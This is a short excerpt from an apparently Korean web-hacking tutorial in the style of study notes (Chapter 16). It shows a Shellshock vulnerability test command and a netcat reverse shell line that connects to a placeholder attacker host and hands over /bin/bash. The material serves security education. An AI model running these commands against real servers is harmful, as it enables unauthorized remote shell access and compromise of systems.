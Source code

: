 <div class="colorscripter-code" style="color:#010101;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important; position:relative !important;overflow:auto"><table class="colorscripter-code-table" style="margin:0;padding:0;border:none;background-color:#fafafa;border-radius:4px;" cellspacing="0" cellpadding="0"><tr><td style="padding:6px;border-right:2px solid #e5e5e5"><div style="margin:0;padding:0;word-break:normal;text-align:right;color:#666;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important;line-height:130%"><div style="line-height:130%">1</div></div></td><td style="padding:6px 0;text-align:left"><div style="margin:0;padding:0;color:#010101;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important;line-height:130%"><div style="padding:0 6px; white-space:pre; line-height:130%">env&nbsp;x<span style="color:#0086b3"></span><span style="color:#ff3399">=</span><span style="color:#993333">'&nbsp;()&nbsp;{&nbsp;:;};&nbsp;echo&nbsp;DANGER'</span>&nbsp;bash&nbsp;<span style="color:#0086b3"></span><span style="color:#ff3399">-</span>c&nbsp;<span style="color:#993333">'echo&nbsp;Caren'</span></div></div></td><td style="vertical-align:bottom;padding:0 2px 4px 0"><a href="http://colorscripter.com/info#e" target="_blank" style="text-decoration:none;color:white"><span style="font-size:9px;word-break:normal;background-color:#e5e5e5;color:white;border-radius:10px;padding:1px">cs</span></a></td></tr></table></div><br>

-셸쇼크에 취약하지 않은 경우 DANGER 표시가 안됩니다.


<div class="colorscripter-code" style="color:#010101;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important; position:relative !important;overflow:auto"><table class="colorscripter-code-table" style="margin:0;padding:0;border:none;background-color:#fafafa;border-radius:4px;" cellspacing="0" cellpadding="0"><tr><td style="padding:6px;border-right:2px solid #e5e5e5"><div style="margin:0;padding:0;word-break:normal;text-align:right;color:#666;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important;line-height:130%"><div style="line-height:130%">1</div></div></td><td style="padding:6px 0;text-align:left"><div style="margin:0;padding:0;color:#010101;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important;line-height:130%"><div style="padding:0 6px; white-space:pre; line-height:130%">nc&nbsp;<span style="color:#0086b3"></span><span style="color:#ff3399">&lt;</span>공격자&nbsp;호스트&nbsp;ip&nbsp;주소<span style="color:#0086b3"></span><span style="color:#ff3399">&gt;</span>&nbsp;<span style="color:#0086b3"></span><span style="color:#ff3399">&lt;</span>포트번호<span style="color:#0086b3"></span><span style="color:#ff3399">&gt;</span>&nbsp;<span style="color:#0086b3"></span><span style="color:#ff3399">-</span>e&nbsp;<span style="color:#0086b3"></span><span style="color:#ff3399">/</span>bin<span style="color:#0086b3"></span><span style="color:#ff3399">/</span>bash</div></div></td><td style="vertical-align:bottom;padding:0 2px 4px 0"><a href="http://colorscripter.com/info#e" target="_blank" style="text-decoration:none;color:white"><span style="font-size:9px;word-break:normal;background-color:#e5e5e5;color:white;border-radius:10px;padding:1px">cs</span></a></td></tr></table></div><br>


-리버스 쉘을 생성하는 명령어,<br>
공격자의 호스트가 서버가 됩니다.

<div align="center" >
<img src="/Art of Web Hacking/Chapter16/006.png" width="500" height="405"> <br>
</div>스샷. 6<br>
<div align="center" >
